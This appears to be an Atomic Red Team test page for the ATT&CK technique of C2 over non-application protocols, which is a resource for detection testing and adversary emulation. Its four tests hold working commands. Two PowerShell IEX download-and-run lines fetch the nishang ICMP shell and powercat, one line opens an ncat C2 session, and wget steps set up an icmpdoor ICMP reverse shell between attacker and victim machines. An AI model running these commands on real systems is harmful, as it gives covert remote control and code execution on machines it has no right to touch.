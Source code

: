 # T1095 - Non-Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1095)
<blockquote>

Adversaries may use an OSI non-application layer protocol for communication between host and C2 server or among infected hosts within a network. The list of possible protocols is extensive.(Citation: Wikipedia OSI) Specific examples include use of network layer protocols, such as the Internet Control Message Protocol (ICMP), transport layer protocols, such as the User Datagram Protocol (UDP), session layer protocols, such as Socket Secure (SOCKS), as well as redirected/tunneled protocols, such as Serial over LAN (SOL).

ICMP communication between hosts is one example.(Citation: Cisco Synful Knock Evolution) Because ICMP is part of the Internet Protocol Suite, it is required to be implemented by all IP-compatible hosts.(Citation: Microsoft ICMP) However, it is not as commonly monitored as other Internet Protocols such as TCP or UDP and may be used by adversaries to hide communications.

In ESXi environments, adversaries may leverage the Virtual Machine Communication Interface (VMCI) for communication between guest virtual machines and the ESXi host. This traffic is similar to client-server communications on traditional network sockets but is localized to the physical machine running the ESXi host, meaning it does not traverse external networks (routers, switches). This results in communications that are invisible to external monitoring and standard networking tools like tcpdump, netstat, nmap, and Wireshark. By adding a VMCI backdoor to a compromised ESXi host, adversaries may persistently regain access from any guest VM to the compromised ESXi host’s backdoor, regardless of network segmentation or firewall rules in place.(Citation: Google Cloud Threat Intelligence VMWare ESXi Zero-Day 2023)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - ICMP C2](#atomic-test-1---icmp-c2)

- [Atomic Test #2 - Netcat C2](#atomic-test-2---netcat-c2)

- [Atomic Test #3 - Powercat C2](#atomic-test-3---powercat-c2)

- [Atomic Test #4 - Linux ICMP Reverse Shell using icmp-cnc](#atomic-test-4---linux-icmp-reverse-shell-using-icmp-cnc)


<br/>

## Atomic Test #1 - ICMP C2
This will attempt to  start C2 Session Using ICMP. For information on how to set up the listener
refer to the following blog: https://www.blackhillsinfosec.com/how-to-c2-over-icmp/

**Supported Platforms:** Windows


**auto_generated_guid:** 0268e63c-e244-42db-bef7-72a9e59fc1fc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | The IP address of the listening server | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress #{server_ip}
```






<br/>
<br/>

## Atomic Test #2 - Netcat C2
Start C2 Session Using Ncat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


**auto_generated_guid:** bcf0d1c1-3f6a-4847-b1c9-7ed4ea321f37





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_port | The port for the C2 connection | integer | 80|
| ncat_exe | The location of ncat.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1095&#92;nmap-7.80&#92;ncat.exe|
| ncat_path | The folder path of ncat.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1095|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c "#{ncat_exe}" #{server_ip} #{server_port}
```




#### Dependencies:  Run with `powershell`!
##### Description: ncat.exe must be available at specified location (#{ncat_exe})
##### Check Prereq Commands:
```powershell
if( Test-Path "#{ncat_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory -Force -Path "#{ncat_path}" | Out-Null
$parentpath = Split-Path (Split-Path "#{ncat_exe}"); $zippath = "$parentpath\nmap.zip"
Invoke-WebRequest  "https://nmap.org/dist/nmap-7.80-win32.zip" -OutFile "$zippath"
  Expand-Archive $zippath $parentpath -Force
  $unzipPath = Join-Path $parentPath "nmap-7.80"
if( $null -eq (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.DisplayName -like "Microsoft Visual C++*"}) ) {
  Start-Process (Join-Path $unzipPath "vcredist_x86.exe")
}
```




<br/>
<br/>

## Atomic Test #3 - Powercat C2
Start C2 Session Using Powercat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


**auto_generated_guid:** 3e0e0e7f-6aa2-4a61-b61d-526c2cc9330e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|
| server_port | The port for the C2 connection | integer | 80|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c #{server_ip} -p #{server_port}
```






<br/>
<br/>

## Atomic Test #4 - Linux ICMP Reverse Shell using icmp-cnc
ICMP C2 (Command and Control) utilizes the Internet Control Message Protocol (ICMP), traditionally used for network diagnostics, as a covert communication channel for attackers. By using ICMP, adversaries can send commands, exfiltrate data, or maintain access to compromised systems without triggering network detection systems.
This method allows attackers to communicate and control compromised devices while remaining undetected.

For more details, check this blog: [ICMP Reverse Shell Blog](https://cryptsus.com/blog/icmp-reverse-shell.html)

**Important Notes:**
- Use `[icmp-cnc]` for the C2 server (Attacker) and `[icmpdoor]` for the C2 client (Victim).
- Binaries work on Ubuntu 22.04.5 LTS; for CentOS Stream or other, use the Python file from the GitHub link [https://github.com/krabelize/icmpdoor].
- Root access is required.

**Supported Platforms:** Linux


**auto_generated_guid:** 8e139e1f-1f3a-4be7-901d-afae9738c064





#### Run it with these steps! 
1. Run the following command on both the attacker and victim machines to download the required binaries.

    mkdir -p /tmp/icmpdoor && wget -P /tmp/icmpdoor https://github.com/krabelize/icmpdoor/raw/2398f7e0b8548d8ef2891089e4199ee630e84ef6/binaries/x86_64-linux/icmp-cnc https://github.com/krabelize/icmpdoor/raw/2398f7e0b8548d8ef2891089e4199ee630e84ef6/binaries/x86_64-linux/icmpdoor && chmod +x /tmp/icmpdoor/icmp-cnc /tmp/icmpdoor/icmpdoor && echo 'export PATH=$PATH:/tmp/icmpdoor' >> ~/.bashrc && source ~/.bashrc

2. Start the C2 server on the attacker system to listen for incoming connections.

    icmp-cnc --interface <Network Interface> --destination_ip <VICTIM-IP>

3. Run the client on the victim machine.

    icmpdoor --interface <Network Interface> --destination_ip <ATTACKER-IP>
  
4. Cleanup Command: Remove the icmpdoor directory.

    rm -rf /tmp/icmpdoor







<br/>
